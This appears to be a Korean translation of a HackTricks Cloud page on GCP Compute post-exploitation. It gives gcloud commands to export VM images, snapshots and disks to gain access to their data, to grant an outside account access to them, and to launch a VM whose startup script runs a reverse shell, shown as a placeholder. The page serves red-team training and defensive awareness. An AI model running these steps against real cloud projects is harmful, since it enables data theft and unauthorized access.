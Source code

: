 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Compute 및 VPC(네트워킹)에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### 이미지를 로컬로 내보내고 검사하기

이것은 공격자가 **이미 존재하는 이미지에 포함된 데이터에 접근**하거나 **실행 중인 VM의 새로운 이미지를 생성하고 해당 데이터에 접근**할 수 있게 합니다. 실행 중인 VM에 접근하지 않고도 가능합니다.

VM 이미지를 버킷으로 내보낸 다음, 다운로드하여 로컬에서 마운트하는 것이 가능합니다:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

이 작업을 수행하기 위해 공격자는 스토리지 버킷에 대한 권한과 **cloudbuild에 대한 권한**이 필요할 수 있습니다. 이는 **서비스**가 내보내기를 수행하도록 요청받을 것이기 때문입니다.\
또한, 이를 위해 codebuild SA와 compute SA는 권한이 필요합니다.\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com`는 다음이 필요합니다:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

그리고 SA `<project-id>-compute@developer.gserviceaccount.com`는 다음이 필요합니다:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### 스냅샷 및 디스크를 로컬로 내보내고 검사하기

스냅샷과 디스크를 직접 내보내는 것은 불가능하지만, **스냅샷을 디스크로, 디스크를 이미지로 변환**하고 **이전 섹션**에 따라 해당 이미지를 내보내어 로컬에서 검사하는 것은 가능합니다.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### VM 생성 시 이미지 검사

**이미지에 저장된 데이터** 또는 **공격자가 이미지를 생성한** **실행 중인 VM** 내부에 접근하는 것을 목표로 하여, 외부 계정에 이미지에 대한 접근 권한을 부여하는 것이 가능합니다:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
그리고 나서 그것으로부터 새로운 VM을 생성합니다:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
만약 이미지에 대한 외부 계정 접근을 제공할 수 없다면, 피해자의 프로젝트에서 해당 이미지를 사용하여 VM을 시작하고 **메타데이터가 리버스 셸을 실행하도록 만들 수 있습니다**. 이미지를 접근하기 위해 다음 매개변수를 추가하세요:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### VM에 연결하여 스냅샷/디스크 검사하기

**디스크나 스냅샷에 저장된 데이터에 접근하는 것을 목표로, 스냅샷을 디스크로, 디스크를 이미지로 변환하고 이전 단계를 따를 수 있습니다.**

또는 **외부 계정에 디스크에 대한 접근 권한을 부여할 수 있습니다** (시작점이 스냅샷인 경우 스냅샷에 접근 권한을 부여하거나 그로부터 디스크를 생성합니다):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**인스턴스에 디스크 연결**:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
VM 내부에 디스크를 마운트합니다:

1.  **VM에 SSH 접속**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **디스크 식별**: VM 내부에 들어가면 디스크 장치를 나열하여 새 디스크를 식별합니다. 일반적으로 `/dev/sdb`, `/dev/sdc` 등으로 찾을 수 있습니다.
3. **디스크 포맷 및 마운트** (새 디스크 또는 원시 디스크인 경우):
*   마운트 포인트 생성:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   디스크 마운트:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

**외부 프로젝트에 스냅샷 또는 디스크에 대한 액세스를 제공할 수 없는 경우**, **스냅샷/디스크와 동일한 프로젝트의 인스턴스 내에서 이러한 작업을 수행해야 할 수 있습니다**.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
